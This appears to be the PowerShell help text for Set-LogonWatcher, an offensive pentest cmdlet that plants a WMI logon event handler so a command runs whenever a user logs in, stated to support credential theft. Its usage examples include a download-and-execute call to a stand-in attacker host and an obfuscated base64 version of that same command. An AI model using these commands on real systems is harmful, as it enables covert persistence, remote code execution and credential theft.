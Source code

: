 NAME
    Set-LogonWatcher

SYNOPSIS
    Set-LogonWatcher creates a WMI event handler in order to execute a command upon local or remote interactive user login.


SYNTAX
    Set-LogonWatcher [[-URL] <String>] [[-Command] <String>] [[-EncodedCommand] <String>] [<CommonParameters>]


DESCRIPTION
    Set-LogonWatcher creates a WMI event handler in order to execute a command upon local or remote interactive user lo
    gin.
    The primary purpose of the tool is to support credential theft during a pentest.
    Parameters:
    -URL An URL of a PowerShell script to load and execute.
    -Command PowerShell command(s) to execute.
    -EncodedCommand Base64 encoded PowerShell command(s).
    The EncodedCommand parameter can't be used together with the other two parameters.
    This script requires local admin privileges!


PARAMETERS
    -URL <String>
        URL to load the remote code from

    -Command <String>
        Command to execute

    -EncodedCommand <String>
        Base64 encoded command

    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer and OutVariable. For more information, type,
        "get-help about_commonparameters".

    -------------------------- EXAMPLE 1 --------------------------

    C:\PS>Set-LogonWatcher -URL http://attacker-host.com/attacker-script.ps1 -Command Invoke-AttackerScript






    -------------------------- EXAMPLE 2 --------------------------

    C:\PS>Set-LogonWatcher -EncodedCommand SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0
    ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAGEAdAB0AGE
    AYwBrAGU AcgAtAGgAbwBzAHQALgBjAG8AbQAvAGEAdAB0AGEAYwBrAGUAcgAtAHMAYwByAGkAcAB0AC4AcABzADEAJwApACkAOwBJAG4AdgBvAGsAZ
    QAtAEEAdAB0AGEAYwBrAGUAcgBTAGMAcgBpAHAAdAA=



NAME
    Remove-LogonWatcher

SYNOPSIS
    Remove-LogonWatcher removes the WMI event handler which was created with Set-LogonWatcher


SYNTAX
    Remove-LogonWatcher [<CommonParameters>]


DESCRIPTION
    Remove-LogonWatcher removes the WMI event handler which was created with Set-LogonWatcher.
    This script requires local admin privileges!


PARAMETERS
    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer and OutVariable. For more information, type,
        "get-help about_commonparameters".

    -------------------------- EXAMPLE 1 --------------------------

    C:\PS>Remove-LogonWatcher






